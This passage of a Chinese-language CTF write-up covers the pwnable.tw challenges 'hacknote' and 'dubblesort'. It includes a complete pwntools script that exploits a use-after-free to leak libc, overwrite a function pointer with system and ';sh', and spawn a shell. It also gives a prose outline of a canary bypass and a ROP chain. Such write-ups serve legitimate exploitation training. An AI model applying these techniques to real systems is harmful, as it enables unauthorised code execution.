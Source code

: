 悲伤的地方在于，我一直在测试`+x+x`类型的payload，但我的x太小了，导致我一直忽略了这块内容……就差一点我就能自己写出来了……下一次遇见奇怪的地方一定要测试透了再转到下一个内容啊……

## hacknote

这不比calc简单（

非常明显的uaf，但仍有几点需要注意：
- libc版本2.23，没有tcache；因此没法用万能的tcache poisoning（某种意义上旧版本我反而不会写了）
- 题目存在一个全局的计数变量，正常情况下只能malloc五个堆块（但好像没啥用，四次甚至就够用了）
- 注意题目设置的函数指针内部调用的是`puts(*(char **)(param_1 + 4))`

第三点卡了我好一会。`(***(code ***)(&notes + index * 4))(*(undefined4 *)(&notes + index * 4))`的调用方法等同于调用`func(func)`，但func无论如何不是有效的指令。后来意识到加个分号就好了：`;sh`，就算前面的函数指针不是有效的命令，后面这个是啊
```py
from pwn import *
libc = ELF("./libc_32.so.6")
r = remote("chall.pwnable.tw",10102)
def add(size,content):
    r.sendlineafter(":","1")
    r.sendlineafter(":",str(size))
    if len(content)==0:
        r.sendlineafter(":",content)
    else:
        r.sendafter(":",content)
def delete(idx):
    r.sendlineafter(":","2")
    r.sendlineafter(":",str(idx))
def show(idx):
    r.sendlineafter(":","3")
    r.sendlineafter(":",str(idx))
add(160,'a') #unsorted bin
add(24,'b') #防止后面free时上面这个chunk与top chunk合并。申请的大小只要不和note header的大小（8）一样就好
delete(0)
add(160,'')
show(2)
r.recv(4)
libc.address=u32(r.recv(4))-0x1b07b0
delete(1)
delete(2)
add(8,p32(libc.sym['system'])+b";sh\x00") #1号note的header
show(1)
r.interactive()
```

## dubblesort

那我问你，为什么不给我dockerfile？

存储name的变量事先没有清空，因此可以通过变量里遗留的内容泄漏libc地址

numbers的数量没有做限制，于是有一个很明显的溢出。关键点是输入`+`跳过canary，然后写调用system的rop链。我检查过了，libc里正好`/bin/sh`的地址大于system的地址，于是不用担心排序函数打乱rop链。唯一的问题是canary的值可能大于rop链的值。遇到这种情况只能重开
